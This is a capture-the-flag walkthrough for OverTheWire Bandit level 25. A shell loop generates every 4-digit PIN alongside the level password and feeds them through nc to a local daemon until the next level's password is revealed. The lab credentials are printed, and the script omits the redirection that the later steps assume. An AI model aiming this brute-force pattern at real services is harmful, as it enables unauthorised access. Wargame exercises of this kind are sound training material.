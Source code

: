 # Level 25
> A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

```shell
bandit24@bandit:~$ cd $(mktemp -d)
bandit24@bandit:/tmp/tmp.OVOzKt6biG$ vi test.sh
```

### test.sh
```shell
#!/bin/bash
password='gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8'
for i in {0000..9999}; do
	echo $password $i
done
```

```shell
bandit24@bandit:/tmp/tmp.OVOzKt6biG$ chmod +x test.sh
bandit24@bandit:/tmp/tmp.OVOzKt6biG$ ./test.sh
bandit24@bandit:/tmp/tmp.OVOzKt6biG$ head -n 5 passwords.txt 
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0000
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0001
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0002
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0003
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0004

bandit24@bandit:/tmp/tmp.OVOzKt6biG$ cat passwords.txt | nc localhost 30002 > results.txt

bandit24@bandit:/tmp/tmp.OVOzKt6biG$ cat results.txt | grep -vi wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

bandit24@bandit:/tmp/tmp.OVOzKt6biG$ exit

$ ssh bandit25@bandit.labs.overthewire.org -p 2220
$ iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```
